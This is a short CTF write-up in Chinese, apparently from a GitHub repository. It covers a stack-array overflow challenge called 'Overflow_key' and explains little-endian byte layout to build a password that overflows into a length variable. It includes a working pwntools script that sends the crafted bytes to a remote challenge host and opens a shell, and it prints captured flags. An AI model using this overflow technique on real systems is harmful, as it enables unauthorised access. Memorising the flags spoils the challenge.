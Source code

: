 ``` 
SSHCTF{a_H4ckEr_Sto1e_mY_f1A9_w17H_a_ne6ATlvE_w46ER_3ab2029b8e4d}
```

### Overflow_key

1. checksec检测，是小端序，看完hint的三个视频，再加上数组溢出，就知道怎么做了。用ida打开：

   ``` 
    buf: 7字节，前4个必须是'root'
    v5: buf字节数
    v4: 10字节，读取到的下一位设置为0，本身仅有char[6]，存在数组溢出
    v4: 前6字节写在了v4，后
    check(v4, v5): v4前四位是aaaa，且v5=257
   ```

2. 小端序存储是低位字节存低地址，高位字节存高地址，根据v5和v4存储的相对位置，得到pwd

   ```
   low -----------------------------------------> high (addr)
   loc 01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16
   v5                    01 01 00 00 00 00 00 00
   pwd 61 61 61 61 00 00 01 01 00 00 00 00 00 00 00
   ```

3. 获取shell

   ```python
   from pwn import *
   context.log_level = 'debug'
   context.binary = 'terminal'
   #sh = process('./terminal')
   sh = remote('210.44.150.15', 25354)
   username = b'root'
   password = b'aaaa\x00\x00\x01\x01\x00\x00\x00\x00\x00\x00\x00'
   # v5 = 257 = 0x101
   # password(v4) = aaaa = 0x61616161
   
   sh.recvuntil(b'Username:')
   sh.sendline(username)
   sh.recvuntil(b'Password:')
   sh.sendline(password)
   sh.interactive()
   ```

![terminal](imgs/terminal.png)

``` 
SSHCTF{NEvER_7AKE_0v3rFIow_IIgH7ly_e9a3d549a38e}
```
